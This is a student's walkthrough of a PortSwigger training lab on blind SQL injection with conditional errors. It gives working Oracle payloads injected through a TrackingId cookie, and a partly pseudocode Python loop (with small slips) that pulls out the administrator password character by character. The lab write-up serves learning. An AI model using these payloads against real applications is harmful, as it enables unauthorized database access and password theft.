 #+TITLE: WSA: Blind SQL Injection with conditional errors
#+DATE: <2024-02-13 11:22>
#+DESCRIPTION: Walkthrough for the related PortSwigger Web Lab.
#+FILETAGS: wsa sqli


* Introduction
I feel like much of the process I made during the last year, even
though significant was disorganized and chaotic. I have reached a
level where I can read (/study) cybersecurity research and articles
with increasing comfort, having a solid background on most terms, but
at the same time, my practical knowledge on most of those is greatly
underdeveloped. To tackle that, I selected a field to focus on for
this semester, expecting a certain degree of proficiency at the end of
it that I can (at least pretend to) participate in a bug bounty
program and solve related CTF challenges.

Starting with SQL injections.



* Web Security Academy
[[https://portswigger.net/web-security/dashboard][Web Security Academy]] has been a very interesting integration to my
/studying/ routine, allowing for easily deployable labs, directly from
my browser, which I can access without the need of a ~VPN~. Having a
basic Web lab configured locally, they allow me to test different
ideas freely, _without much friction_.

Stating this here, I aim to complete at least 210 labs (roughly 80% of
the ones available in the website) by the end of May.

* The process
'nough said, let's dive into the lab. 

** Finding the SQLi point
Knowing that this is a lab with a SQLi vulnerability, I just loaded
the page on my browser, revealing a familiar page from previously
completed (/yet undocumented from my part/) labs. After 2 minutes in
manual navigation, I had collected enough requests for me in Burp
Suite to be able to work solely through ~Repeater~:
- [X] Testing ~parameter~: We see that tinkering around leaves no trace of
  a potential SQLi.
- [X] Testing the cookie: As seen in the image below... we know where to
  look at.

#+caption: SQLi POC
[[file:images/20240213_112605_screenshot.png]]


** Finding the SQL backend
Now, knowing that we have to manipulate the value of ~TrackingID~
cookie, we need to gather some more information about the underlying
system. Using simple ~AND~ queries does not seem to give us much
information, since the output of our commands is not shown in the
response, but adding ~UNION SELECT~ means increased versatility.

Namely the process followed here was:
- [X] Get a simple ~AND~ query to return 200
  - ~' and 'a'='a'--~
- [X] Insert a ~SELECT~ there to see how the DBMS handles those
  - ~(SELECT 'a')='a'--~ fails, for no apparent reason
  - ~(SELECT 'a' from dual)='a'--~ and we're good to go, an obvious sign
    that we are facing Oracle DBMS


#+caption: Oracle DBMS poc
[[file:images/20240213_112905_screenshot.png]]

** Developing a base condition
Getting into our arsenal ([[https://portswigger.net/web-security/sql-injection/cheat-sheet][SQLi Cheatsheet]]), we insert a ~CASE~
statement, and a division by zero to throw an exception when the
condition is met. Using this general syntax will allow us in the next
steps to get more information about the target system, since it
effectively translates into:
- 500 return code -> condition true
- 200 return code -> condition false

#+caption: Getting the DBMS to throw an error
[[file:images/20240213_113037_screenshot.png]]



** Validating the existence of specifics
Our goal is to get the password of the ~administrator~ account but first
we need to verify some data:
- [X] Validating the existence of the ~users~ table
- [X] Validating the existence of ~user~: administrator 
- [X] Validating the existence of the ~password~ column

These were mostly completed as shown here:
#+begin_example
TrackingId=YgUTniHSZwxsy11x' UNION SELECT CASE WHEN ('b'='a') THEN TO_CHAR(1/0) ELSE null END FROM users--
TrackingId=YgUTniHSZwxsy11x' UNION SELECT CASE WHEN ('b'='a') THEN TO_CHAR(1/0) ELSE password END FROM users--
TrackingId=YgUTniHSZwxsy11x' UNION SELECT CASE WHEN ('b'='a') THEN TO_CHAR(1/0) ELSE password END FROM users WHERE username='administrator'--
#+end_example

** Getting info about password
Pay attention to how my payload has slightly changed from the previous
"examples", and *special emphasis* should be given to the ~from dual~
part, since forgetting it causes 500 (oracle DBMS).

*** Password Length
To get the length of the password field for the entry with
~username='administrator'~, we can rely on the builtin function ~LENGTH~
Through /binary/ search, starting from an obviously unrealistic (for a
challenge at least) length of 100, we got that password length for
administrator is 20 characters:

#+begin_example
TrackingId=YgUTniHSZwxsy11x' UNION SELECT CASE WHEN ((SELECT 'a' from users where username='administrator' and LENGTH(password)>0)='a') THEN 'a' ELSE TO_CHAR(1/0) END from dual--
Cookie: TrackingId=YgUTniHSZwxsy11x' UNION SELECT CASE WHEN ((SELECT 'a' from users where username='administrator' and LENGTH(password)<100)='a') THEN 'a' ELSE TO_CHAR(1/0) END from dual--;
#+end_example


#+caption: Password Length Query
[[file:images/20240213_114312_screenshot.png]]

This means that we need to get 20 characters

*** Password Contents
Since I use Burp Community Edition I know that to get the password
will take a fair share of my lifetime, should I stick with the
/confined/ version of ~Intruder~. To make up for it, I decided to run a
simple loop with python. Namely:

#+begin_src python
password = ""

for index in range(1,21):
    for letter in string.lowercase + string.digits:
        req = send.request() # Pseudocode
        if reg.status_code == 500:
            password += letter
            break
#+end_src

The request is built and sent using ~python~'s builtin ~requests~ library,
allowing through the usage of ~proxies~, to have the requests sent to
burp as well[fn:1], while its payload is in the form of:

#+begin_example
'Cookie': f"TrackingId=YgUTniHSZwxsy11x' UNION SELECT CASE WHEN ((SELECT SUBSTR(password,{index},1) from users where username='administrator') ='{letter}') THEN TO_CHAR(1/0) ELSE null END from dual--; session=ImL77SPyy3Ne4HwEqb2Bnu2HFhIR18Vp",
#+end_example

Notice that:
- It is in the format of a python dictionary
- I _still_ use ~dual~
- Usage of '' outside of {letter}, otherwise the requests get all invalidated.

This beautifully automates the process allowing me to get a:

#+caption: BEAUTIFULLLLLLL
[[file:images/20240213_115634_screenshot.png]]


* Summary
Do not make the mistake of overlooking these labs. They have been
really fun to play with, and I feel like I have already learned so
much new about SQLi ...

* Footnotes

[fn:1] Critical when debugging payload mistakes 
